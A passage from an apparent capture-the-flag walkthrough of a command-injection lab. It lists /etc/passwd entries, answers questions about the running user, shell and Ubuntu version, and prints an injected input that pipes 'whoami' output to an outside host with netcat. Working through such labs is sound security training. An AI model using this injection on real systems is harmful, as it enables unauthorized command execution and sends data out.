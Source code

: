```
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

`0`

3. What user is this app running as?

`root; whoami | nc 10.8.106.222 9001`

`www-data`

4. What is the user's shell set as?

`/usr/sbin/nologin`

5. What version of Ubuntu is running?

![](2020-09-29_14-39.png)

`lsb_release -a`

`18.04.4`

6. Print out the MOTD.  What favorite beverage is shown?
